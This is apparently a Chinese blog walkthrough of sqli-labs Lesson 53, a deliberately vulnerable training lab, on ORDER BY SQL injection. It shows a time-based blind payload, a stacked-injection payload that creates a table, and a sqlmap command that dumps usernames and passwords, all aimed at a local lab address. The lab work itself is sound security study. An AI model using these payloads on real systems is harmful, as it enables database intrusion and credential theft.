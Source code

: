 ```yaml
---
title: sqli-labs-lession-53-GET-盲注-字符型堆叠注入-OrderBy注入
date: 2018-11-19 10:52:33
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs-lession-53-GET-盲注-字符型堆叠注入-OrderBy注入

---

## 登录界面

![001](/img/sql/Lesson-53/001.png)

## 注入

判断是引号闭合,好像只能利用时间盲注,效率好低啊。

### 时间盲注payload

`http://10.60.17.35:8082/Less-53/?sort=1'+and if(8=length(database()),sleep(3),1)%23`

![002](/img/sql/Lesson-53/002.png)

## 堆叠注入

`http://10.60.17.35:8082/Less-53/?sort=1';create+table+less-53+like+users%23`

![003](/img/sql/Lesson-53/003.png)

## SQLMAP

![004](/img/sql/Lesson-53/004.png)

![005](/img/sql/Lesson-53/005.png)

`sqlmap -u "http://10.60.17.35:8082/Less-53/?sort=1" --technique T --dbms mysql --level 2 -v 3 -D security -T users -C username,password --dump`

![006](/img/sql/Lesson-53/006.png)

![007](/img/sql/Lesson-53/007.png)





